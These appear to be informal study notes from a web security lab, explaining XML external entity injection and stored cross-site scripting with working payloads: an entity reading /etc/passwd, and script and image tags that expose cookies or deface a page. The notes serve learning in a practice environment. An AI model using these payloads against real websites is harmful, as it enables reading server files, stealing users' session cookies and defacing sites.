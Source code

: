 ==NOTE: \#PCDATA means parseable character data.==
    
    
    
## PAYLOAD

Now we'll see some XXE payload and see how they are working.

1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.
	
```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

As we can see we are defining a ENTITY called name and assigning it a value feast. Later we are using that ENTITY in our code.

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
Here again, we are defining an ENTITY with the name read but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file /etc/passwd.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.



extremely easy to do with burpsuite repeater ...




### Stored XSS

as always overthinkink,,, after creating  an account:

`<p>HEY, it's HTML!!</p>`

show our cookie
`<script>alert(document.cookie)</script>`

deface website
`<script>document.getElementById('thm-title').innerHTML="I am a hacker"</script>`

show log of cookies
`<img src="javascript:'/log/' + document.cookie" />`
